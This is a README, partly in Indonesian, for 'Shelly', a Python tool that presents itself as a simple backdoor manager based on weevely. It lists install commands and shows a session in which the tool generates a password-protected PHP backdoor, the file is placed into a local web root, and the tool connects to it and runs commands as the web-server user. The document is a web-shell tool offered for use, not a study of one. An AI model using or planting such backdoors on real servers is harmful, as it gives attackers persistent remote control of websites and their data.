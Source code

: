 
## Shelly | Simple Backdoor Manager with Python (based on weevely)

![Screenshoot](/shelly.png)
<br>
Shelly adalah sebuah tool sederhana yang ditulis menggunakan Python, yang berfungsi untuk meremote sebuah website
<br>
### Instalation :

$ git clone https://github.com/tegal1337/Shelly <br>
$ cd Shelly <br>
$ python3 shell.py <br>

### Requirements :

<pre>
sudo pip install -r requirements.txt
</pre>

### Example :
<pre>

python3 shell.py -g backdoor -p tegal1337
   ______      ____
  / __/ / ___ / / __ __
 _\ \/ _ / -_/ / / // /
/___/_//_\__/_/_/\_, /
                /___/  v.1
--------------------------
Python shell - Tegal1337 |
Generate :
[+] ./backdoor.py -g "nama_shell" -p "password"
Connect Server :
[+] ./backdoor.py -u "url_shell" -p "password"

Backdoor berhasil dibuat dengan nama backdoor.php dan password tegal1337

dalpan@Tegal1337:~/Tools$ mv backdoor.php /opt/lampp/htdocs/php-futsal/
dalpan@Tegal1337:~/Tools$ python3 shell.py -u "http://localhost/php-futsal/backdoor.php" -p tegal1337
/opt/lampp/htdocs/php-futsal$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
</pre>
![Screenshoot](/shelly2.png)
### Contact :
<ul>
  <li> Email : contact@dalpan.co</li>
  <li> FB : fb.com/dalpan.me
</ul>
